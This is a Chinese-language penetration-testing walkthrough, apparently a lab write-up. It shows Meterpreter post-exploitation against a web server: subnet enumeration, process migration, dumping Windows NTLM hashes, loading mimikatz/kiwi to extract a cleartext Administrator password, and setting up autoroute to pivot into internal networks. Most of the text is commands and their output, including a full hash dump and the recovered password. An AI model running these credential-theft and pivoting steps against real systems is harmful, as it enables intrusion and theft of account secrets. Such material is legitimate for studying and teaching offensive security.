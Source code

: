 ```
解密密码cc123
```

```
WEB服务器 10.10.10.135 192.168.43.134

```

查看路由信息的命令

```
run get_local_subnets
```

下面来搞这台web服务器的哈希，明文密码

进程迁移

![image-20210130123530755](https://i.loli.net/2021/01/30/6yJlZ8v4wjoxKHC.png)

```
hash获取
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c933df09b600efabee0791aaccc43f2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MySQL_HWS:1001:aad3b435b51404eeaad3b435b51404ee:6a75a75e4cfd3cf00faf743e17e90a53:::
PhpMyAdmin_HWS:1002:aad3b435b51404eeaad3b435b51404ee:a14b615c584d6b043f42f1cfab9779cd:::
huweishen542147:1004:aad3b435b51404eeaad3b435b51404ee:c76eea2615348c5228f7027d3ccab02d:::
cc123:1005:aad3b435b51404eeaad3b435b51404ee:afdeb425b4a55982deb4e80fa3387576:::
newcc123:1007:aad3b435b51404eeaad3b435b51404ee:97824315153b4dd665d6c688f446ebf1:::
ww2cc123:1008:aad3b435b51404eeaad3b435b51404ee:adadf2dd832421c26a96705fd09a32bd:::
```

下面开始使用mimikatz

```
load mimikatz
meterpreter > load kiwi
meterpreter > help kiwi
meterpreter > creds_msv 获取用户的hash值
meterpreter > creds_wdigest 获取明文密文
```

```
* Username : Administrator
* Domain   : WIN-KALKEMT3JMA
* Password : !@#Qwe123.
```

现在开始入侵内网机器

```
Local subnet: 10.10.10.0/255.255.255.0
Local subnet: 192.168.43.0/255.255.255.0

多网段的渗透
run autoroute -p 启动一个网段
```
